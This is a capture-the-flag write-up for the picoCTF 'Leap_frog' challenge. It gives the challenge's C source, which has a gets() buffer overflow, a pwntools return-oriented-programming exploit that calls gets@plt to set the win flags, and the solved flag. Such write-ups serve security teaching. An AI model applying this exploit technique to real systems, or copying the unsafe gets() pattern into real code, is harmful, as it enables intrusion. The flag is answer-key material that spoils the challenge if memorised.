

# Leap_frog (Binary)



Based on the title, clues and binary name it looks like we will be using Return Oriented Programming. My plan is to find the buffer needed to control EIP, then either find a win function or use system and /bin/sh to print the flag.

<details>
	<summary>Source Code</summary>

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <stdbool.h>


#define FLAG_SIZE 64

bool win1 = false;
bool win2 = false;
bool win3 = false;

void leapA() {
  win1 = true;
}

void leap2(unsigned int arg_check) {
  if (win3 && arg_check == 0xDEADBEEF) {
    win2 = true;
  }
  else if (win3) {
    printf("Wrong Argument. Try Again.\n");
  }
  else {
    printf("Nope. Try a little bit harder.\n");
  }
}

void leap3() {
  if (win1 && !win1) {
    win3 = true;
  }
  else {
    printf("Nope. Try a little bit harder.\n");
  }
}

void display_flag() {
  char flag[FLAG_SIZE];
  FILE *file;
  file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("'flag.txt' missing in the current directory!\n");
    exit(0);
  }

  fgets(flag, sizeof(flag), file);
  
  if (win1 && win2 && win3) {
    printf("%s", flag);
    return;
  }
  else if (win1 || win3) {
    printf("Nice Try! You're Getting There!\n");
  }
  else {
    printf("You won't get the flag that easy..\n");
  }
}

void vuln() {
  char buf[16];
  printf("Enter your input> ");
  return gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
}
```
</details>

---post ctf update----


Looks like we can use gets plt to change the win variables to true while calling the display flag


---------------------


<details>
  <summary>exploit</summary>

```python
#!/usr/bin/env python

from pwn import *
import os

argv = sys.argv

#lead elf and get addresses
e = ELF('./rop')
gets_plt = e.plt['gets']
display_flag = e.symbols['display_flag']
win1 = e.symbols['win1']

if len(argv) > 1:
  from getpass import getpass
  ssh = ssh(host='2019shell1.picoctf.com', user='ems3t', password=getpass())
  p = ssh.process('rop', cwd='/problems/leap-frog_2_b375af7c48bb686629be6dd928a46897')
else:
  p = process('./rop')

payload = ''
payload+= 'A'*28
payload+= p32(gets_plt)     #calls gets function so we can write the win variables
payload+= p32(display_flag)   #returns to display flag
payload+= p32(win1)       #allows us to write to win1 address
p.sendlineafter('>', payload)
p.sendline('\x01'*3)      #writes the value 1 to win1, win2, and win3
p.interactive()
```
</details>

<details>
  <summary>Flag</summary>

picoCTF{h0p_r0p_t0p_y0uR_w4y_t0_v1ct0rY_322ee522}
</details>